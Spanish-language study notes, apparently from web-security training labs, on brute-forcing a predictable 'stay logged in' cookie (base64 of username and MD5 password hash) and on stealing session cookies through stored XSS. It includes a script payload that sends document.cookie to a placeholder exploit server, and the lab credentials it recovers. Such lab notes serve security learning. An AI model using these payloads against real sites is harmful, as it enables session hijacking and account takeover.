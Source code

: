 Este tipo de logins, puede que siga el usuario logeado aún después de cerrar sesión en el navegador.

Veo que hay un stay-logged-in

![[Pasted image 20240215111438.png]]

  
  

Cojo esta solicitud y añado variable a stay-logged

![[Pasted image 20240215112625.png]]

  

La cookie se construye:

`base64(username+':'+md5HashOfPassword)`

así que a este payload le añado una wordlist de passwds y a parte le pongo el prefijo carlos:hashea las passwds en md5 y todo eso sea en base64

![[Pasted image 20240215112649.png]]

Cuando me logeo con mi usuario con éxito, sale un mensaje de Update email, le digo que cuando saque esa cadena me avise.

![[Pasted image 20240215112604.png]]

OOOOBTENGOOOOO CREDENTIALS

![[Pasted image 20240215112730.png]]

Después de decodear esa cookie accedo con:

`carlos:hockey`

  

### Lab - obteniendo cookie con vulnerabilidad XSS

Primero observamos cómo es la cookie logeando mi cuenta, funciona igual que ele ejercicio anterior:

  

En el apartado del comment pruebo si hay una vulnerabilidad XSS:

Con un alert en comentario saca esto:

<script>alert("sip")</script>

![[Pasted image 20240215115842.png]]

Importante salir de mi contraseña, ahora haré un

`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

también puedo hacer un document.cookie directamente

ya que la web puede que tenga cookies almacenadas, esto se ve en los logs de la web
